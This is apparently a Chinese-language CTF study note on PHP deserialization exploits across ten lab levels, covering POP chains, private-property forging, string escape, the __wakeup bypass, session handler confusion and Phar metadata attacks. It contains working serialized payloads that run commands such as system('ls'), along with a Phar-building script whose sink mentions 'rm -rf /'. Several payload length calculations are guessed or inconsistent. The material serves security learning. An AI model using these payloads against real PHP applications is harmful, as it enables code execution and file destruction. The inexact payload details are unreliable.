

# php_ser_Class

## 工作原理 (Working Principle - Continued)

本部分重点关注具体技术的原理：

1.  **手动构造与私有属性:** 理解 `protected` (`\0*\0`) 和 `private` (`\0ClassName\0`) 属性在序列化字符串中的表示方式，包括空字节的使用和 URL 编码，是手动构造 payload 以控制这些属性的关键。
2.  **POP 链 (Property Oriented Programming):** 利用一系列“小工具”（gadgets），通常是类中的魔术方法（`__destruct`, `__toString`, `__wakeup`, `__invoke`, `__get` 等），通过对象属性将它们连接起来。链的起点由反序列化自动触发（如 `__wakeup`, `__destruct`），链的终点（sink）执行恶意操作。构造 POP 链需要仔细分析目标代码中可用类的属性和方法调用关系。
3.  **字符串逃逸 (String Escape):** 利用 `serialize()` 前或 `unserialize()` 前对数据进行过滤/替换操作导致序列化字符串中记录的长度与实际内容长度不匹配。
    *   **长度增加:** 过滤/替换使内容变长。`unserialize` 按原记录长度读取，导致部分内容被“遗留”下来，可能被解析为新的属性或对象。
    *   **长度减少:** 过滤/替换使内容变短。`unserialize` 按原记录长度读取，会“吞噬”掉原本紧随其后的字符（如引号、分号），破坏结构，可能允许注入新结构。
4.  **Session 反序列化:** PHP Session 数据默认存储时会经过序列化。`session.serialize_handler` 配置项决定了序列化格式（常见有 `php`, `php_serialize`）。如果应用在不同页面使用了不同的 handler 来读写同一个 Session 文件，攻击者可以通过在一个页面注入特殊构造的数据（利用 `php` 格式的 `|` 分隔符），使得另一个页面以不同的 handler 读取时错误地解析，导致反序列化攻击。
5.  **Phar 反序列化:** `phar://` 伪协议用于访问 Phar 归档文件。当 PHP 使用文件系统函数（如 `file_exists`, `fopen`, `copy`, `file_get_contents`, `is_dir`, `is_file`, `stat`, `parse_ini_file` 等）处理 `phar://` 包装的路径时，**会自动**解析 Phar 文件结构，并**反序列化**存储在 Manifest 部分的元数据 (Metadata)。攻击者可以构造一个包含恶意序列化对象作为元数据的 Phar 文件，上传到服务器（或通过 SSRF 让服务器访问），然后通过文件操作函数触发反序列化。

## 常见漏洞与利用技术 (Common Vulnerabilities & Exploitation Techniques)

### 1. 手动构造与私有属性控制 (Manual Construction & Private Property Control)

*   **原理:** 直接修改序列化字符串，利用 `\0ClassName\0` 格式设置私有属性的值，可以绕过正常的访问控制，将预期之外的对象或值赋给私有属性，常用于 POP 链构造。
*   **示例 (Level 1 - 了解调用链):**
    *   `index::__destruct` 调用 `$this->test->action()`，`test` 是 `private` 属性。目标是让 `$test` 成为 `evil` 类的实例，并调用其 `action` 方法执行命令。
     (代码定义)
    *   **Payload 构造:**
        1.  序列化 `evil` 对象: `O:4:"evil":1:{s:5:"test2";s:13:"system('ls');";}` (假设 `action` 使用 `test2` 属性)
        2.  序列化 `index` 对象 (原始): `O:5:"index":1:{s:11:"\0index\0test";O:6:"normal":0:{}}` (注意私有属性格式 `\0index\0test`)
        3.  **手动修改:** 将 `index` 序列化字符串中 `test` 属性的值替换为 `evil` 对象的序列化字符串：
            `O:5:"index":1:{s:11:"%00index%00test";O:4:"evil":1:{s:5:"test2";s:13:"system('ls');";}}` (空字节需 URL 编码)
     (发送修改后的 Payload)

### 2. POP 链构造实例 (POP Chain Construction Example)

*   **原理:** 组合多个类的魔术方法调用，从反序列化触发点（如 `__wakeup`）开始，一步步传递控制流，最终到达包含危险操作（如 `include`）的 sink gadget。
*   **示例 (Level 2 - POP链构造):**
    *   **目标:** `include('flag.php')` 并 `echo $flag;`。 Sink 在 `Modifier::append()`。
    *   **触发点:** `Show::__wakeup` 中 `echo $this->source;` 会触发 `__toString`。
    *   **Gadgets:**
        1.  `Show::__wakeup` -> `echo $this->source` -> 需要 `$source` 是一个能触发 `__toString` 的对象。发现 `Show` 类本身有 `__toString`。
        2.  `Show::__toString` -> `$this->str->source` -> 需要 `$str` 是一个对象，访问其不存在的 `source` 属性可以触发 `__get`。`Test` 类有 `__get`。
        3.  `Test::__get` -> `$this->p = $k; $p = $this->p; return $p();` -> 将属性 `p` 当作函数调用。需要 `$p` 是 `Modifier` 类的实例，以触发 `Modifier::__invoke`。
        4.  `Modifier::__invoke` -> `$this->append($this->var);` -> 调用 `append` 方法。需要 `$var` 属性为 `'flag.php'`。
        5.  `Modifier::append` -> `include($this->var); echo $flag;` -> 包含文件并输出 flag。
     (类定义)
    *   **Payload 构造:** 按照链条反向构造对象：
        ```php
        <?php
        class Modifier { protected $var = 'flag.php'; }
        class Test { public $p; }
        class Show { public $source; public $str; }

        $modifier = new Modifier();
        $test = new Test(); $test->p = $modifier; 
        $show1 = new Show(); $show1->str = $test;
        // 注意 __wakeup 的 echo $this->source 触发链，所以外层 Show 的 source 属性需要是另一个 Show 实例
        $show2 = new Show(); $show2->source = $show1; // 外层 Show

        echo urlencode(serialize($show2));
        ?>
        ```
        生成的 Payload (部分)：`O:4:"Show":2:{s:6:"source";O:4:"Show":2:{s:6:"source";N;s:3:"str";O:4:"Test":1:{s:1:"p";O:8:"Modifier":1:{s:13:"%00*%00var";s:8:"flag.php";}}}s:3:"str";N;}` (注意 protected 属性格式)
     (构造好的 Payload)
     (获取 Flag)

### 3. 字符串逃逸利用 (String Escape Exploitation)

*   **原理:** 利用序列化前后字符串过滤/替换导致的长度不匹配，注入额外的序列化数据。
*   **示例 (Level 3 - 字符串逃逸-增加):**
    *   `filter` 函数将 `flag` 和 `php` 替换为 `hack` (长度 `php`->`hack` 不变，`flag`->`hack` 长度 -1？假设题目意图是将某个字符如 `_` 替换为 `__` 导致长度增加)。目标是在 `Test` 对象中注入 `pass` 属性，值为 `escaping`。
    *   **假设 filter 将 `x` 替换为 `xx` (长度 +1)。**
    *   要注入的字符串是 `";s:4:"pass";s:8:"escaping";}` (长度 29)。
    *   需要构造 `user` 属性的值，使其包含 29 个 `x`，这样经过 filter 后长度增加 29。
     (代码逻辑)
    *   **Payload 构造 (`user` 参数的值):**
        ```
        <29个x> ;s:4:"pass";s:8:"escaping";} 
        ```
        (实际构造可能需要更复杂，取决于 `pass` 属性原始序列化后的样子，目标是用增加的长度“挤出”注入的内容)
     (构造 Payload，包含 29 个 `php`?)
     (获取 Flag)
    *   **关键:** 精确计算 filter 前后长度变化，以及需要注入的序列化片段长度。

*   **示例 (Level 4 - 字符串逃逸-减少):**
    *   `filter` 将 `flag` 和 `php` 替换为 `hk` (长度 `flag`->`hk` -2, `php`->`hk` -1)。目标是注入 `vip` 属性为 `true`。
    *   要注入的结构原本应该是 `...";s:4:"pass";s:Y:"...";s:3:"vip";b:1;}`。假设原始 `vip` 属性是 `b:0;`。
    *   需要注入的片段是 `";s:3:"vip";b:1;}` (长度 17)。
    *   需要构造 `user` (或 `pass`?) 属性的值，使其包含足够多的 `flag` 或 `php`，经过 filter 后总长度减少 17。
     (代码逻辑)
    *   **Payload 构造 (假设注入到 `user` 属性):**
        ```
        // 需要 user 值包含 N 个 flag/php，使得 filter 后长度减少 17
        // 例如，用 9 个 flag (9 * -2 = -18，多了)，或 17 个 php (17 * -1 = -17)
        // 构造 user 为 <17个php>，后面紧跟要注入的部分，再补全原本 user 后的部分
        user=<17个php>";s:3:"vip";b:1;} [原本pass属性序列化部分]
        pass=...
        ```
        (实际构造需精确)
     (构造 Payload)
     (获取 Flag)
    *   **关键:** 计算需要“吞噬”掉多少字符，通过 filter 长度减少来实现。

### 4. `__wakeup` 绕过应用 (Bypass __wakeup Application)

*   **原理:** 利用 CVE-2016-7124，通过增加序列化字符串中声明的属性数量来跳过 `__wakeup` 的执行。
*   **示例 (Level 5 - wakeup绕过):**
    *   代码存在正则过滤，`__wakeup` 可能包含有害操作或检查。
     (代码)
    *   **Payload:** 构造目标对象的序列化字符串，然后手动增加属性计数值 (例如 `O:4:"Name":1:{...}` 改为 `O:4:"Name":2:{...}`)。同时，为了绕过可能的正则过滤（例如过滤 `O:4:"Name"`），可以使用等价表示，如 `O:+4:"Name":...` (`+` 号表示正整数)。
     (构造 Payload `O:+4:"Name":2:{...}`)
     (URL 编码后发送)

### 5. 引用 (References in Serialization)

*   **原理:** PHP 序列化支持引用。当同一个对象或值在序列化流中多次出现时，第二次及以后可以用 `R:<index>;` 来引用第一次出现时的索引。这可以用来构造一些特殊的逻辑，例如让两个不同的属性指向同一个对象或值。
*   **示例 (Level 6 - 引用):**
    *   代码在反序列化前将 `*` 替换为 `\*`，反序列化后又将对象的 `secret` 属性强制赋值为 `*`。要求 `enter` 属性严格等于 (`===`) `secret` 属性。
     (代码)
    *   **利用:** 构造序列化字符串，让 `enter` 属性引用 `secret` 属性。这样无论 `secret` 被如何修改，`enter` 都会跟着改变，保持严格相等。
        ```php
        <?php
        class A {
            public $enter;
            public $secret;
        }
        $a = new A();
        // 让 enter 引用 secret
        $a->enter = &$a->secret; 
        // 设置一个初始值，包含会被替换的 '*'
        $a->secret = 'initial*value'; 
        
        $payload = serialize($a);
        // 示例 payload (实际索引可能不同): O:1:"A":2:{s:5:"enter";R:2;s:6:"secret";s:14:"initial*value";}
        echo urlencode($payload);
        ?>
        ```
        当服务器接收到这个 payload:
        1. `*` 被替换为 `\*`: `O:1:"A":2:{s:5:"enter";R:2;s:6:"secret";s:15:"initial\*value";}`
        2. 反序列化: 创建 A 对象，`secret` 为 "initial\*value"，`enter` 指向 `secret`。
        3. `$obj->secret = "*"`: `secret` 被改为 `*`。由于 `enter` 引用 `secret`，`enter` 也变为 `*`。
        4. `if ($obj->enter === $obj->secret)`: 判断为 `true`。
     (构造 Payload)
     (获取 Flag)

### 6. Session 反序列化漏洞 (Session Deserialization Vulnerability)

*   **原理:** 利用不同 `session.serialize_handler` 对 Session 数据格式解析的差异。常见的是在 `php_serialize` 存储的页面注入数据，然后在 `php` 读取的页面触发反序列化。
*   **利用流程 (php_serialize -> php):**
    1.  找到一个页面 (`save.php`)，其 `session.serialize_handler` 设置为 `php_serialize`，并且会将用户输入（例如 `$_GET['input']`）存入 Session 的某个键（例如 `user_data`）中。
    2.  构造恶意输入。对于 `php` 处理器，`|` 是键和值的分隔符。我们构造的输入需要包含 `|`，使得 `php` 处理器在读取时，将 `|` 之前的部分视为键名，之后的部分视为要反序列化的值。Payload: `?input=|O:4:"EvilClass":1:{s:3:"cmd";s:10:"ls -al";}`。
    3.  访问 `save.php?input=|O:4:"EvilClass":1:{s:3:"cmd";s:10:"ls -al";}`。PHP 使用 `php_serialize` 存储时，会将整个输入字符串作为 `user_data` 的值序列化，结果类似：`a:1:{s:9:"user_data";s:41:"|O:4:"EvilClass":1:{s:3:"cmd";s:10:"ls -al";}";}`。
    4.  访问另一个页面 (`load.php`)，其 `session.serialize_handler` 使用默认的 `php` 格式。
    5.  `load.php` 读取 Session 文件时，按 `php` 格式解析：遇到第一个 `|`，将其前面的 `a:1:{s:9:"user_data";s:41:"` 视为键名，将其后面的 `O:4:"EvilClass":1:{s:3:"cmd";s:10:"ls -al";}";}` 视为值，并对其调用 `unserialize()`。
    6.  成功反序列化 `EvilClass` 对象，并可能在后续代码中触发其魔术方法（如 `__destruct`），执行命令。
*   **示例 (Level 7 - session反序列化):**
     (代码显示 index.php 使用默认 handler， post.php 使用 php_serialize)
     
     (在 post.php 页面通过 input 提交 `|` + 恶意序列化对象，访问 index.php 触发反序列化，获取 Flag)

*   **示例 (Level 8 - session反序列化2):**
    *   与 Level 7 类似，但增加了一个判断 `$_SESSION['user'] === $_SESSION['function']`。
     (代码)
    *   **利用:** 在注入 Payload 时，同时注入两个键值对，并使用**引用**让它们的值相等。
        Payload: `?input=|s:4:"user";R:2;s:8:"function";O:4:"Evil":...` (让 `user` 引用 (`R:2`) 后面 `function` 的值)
     
     (构造带引用的 Payload)

### 7. Phar 反序列化漏洞 (Phar Deserialization Vulnerability)

*   **原理:** 利用 `phar://` 伪协议处理过程中的自动元数据反序列化特性，结合文件操作函数触发。
*   **利用流程:**
    1.  **定义目标类:** 确定目标应用中存在的、可以通过反序列化利用的类（例如包含 `__destruct` 等危险魔术方法的类）。
    2.  **构造 Phar 文件:** 编写 PHP 脚本生成 Phar 文件。
        ```php
        <?php
        class TargetClass {
            // Vulnerable magic method, e.g., __destruct
            public $data;
            function __destruct() {
                // Example sink: file write, command exec, etc.
                file_put_contents($this->data, 'pwned'); 
                // Or: system($this->data);
            }
        }

        @unlink("malicious.phar"); // Clean up previous file
        
        // Create Phar object
        $phar = new Phar("malicious.phar"); 
        $phar->startBuffering();
        
        // Set stub (mandatory part)
        $phar->setStub("<?php __HALT_COMPILER(); ?>"); 
        
        // Create the vulnerable object with payload
        $obj = new TargetClass();
        $obj->data = "/var/www/html/pwned.txt"; // Payload data
        // Or: $obj->data = "rm -rf /"; 
        
        // Set the object as metadata (this gets unserialized)
        $phar->setMetadata($obj); 
        
        // Add a dummy file (required to create a valid Phar)
        $phar->addFromString("test.txt", "test data"); 
        
        $phar->stopBuffering();
        
        echo "malicious.phar created.\n";
        ?>
        ```
    3.  **上传/放置 Phar 文件:** 将生成的 `malicious.phar` 文件上传到目标服务器的可访问位置（例如通过文件上传漏洞），或者使其可通过 SSRF 等方式被服务器的文件操作函数访问。**注意：文件名后缀不重要，可以是 `.jpg`, `.txt` 等，只要内容是 Phar 格式即可。**
    4.  **触发反序列化:** 找到目标应用中调用文件操作函数（如 `file_exists`, `fopen`, `file_get_contents`, `is_dir` 等）的地方，并控制其参数指向上传的 Phar 文件，使用 `phar://` 伪协议包装路径。
        例如，如果存在 `file_exists($_GET['path'])`，则访问 `?path=phar:///path/to/uploaded/malicious.jpg`。
    5.  PHP 文件系统函数处理 `phar://` 路径时，自动解析 Phar 文件，反序列化其元数据（即我们构造的 `$obj`），触发 `TargetClass` 的魔术方法，执行 Payload。
*   **示例 (Level 9 - Phar反序列化):**
    *   假设 `phar.php` 用于生成 Phar 文件，`index.php` 存在文件操作函数。
     (生成 Phar 的代码 phar.php)
     (index.php 使用 `file_exists` 处理用户输入)
     (访问 index.php，参数使用 `phar://` 触发)

*   **示例 (Level 10 - Phar反序列化2 - 结合文件上传):**
     (生成 Phar 的代码)
     (存在文件上传点)
     (存在可控的文件操作函数，这里是 `file_exists`)
     (上传构造好的 Phar 文件，后缀改为 `.png`)
     (通过 `phar://` 伪协议调用上传的文件，触发反序列化)
*   **注**: phar文件还可以用 `compress.zlib://phar://` 伪协议触发反序列化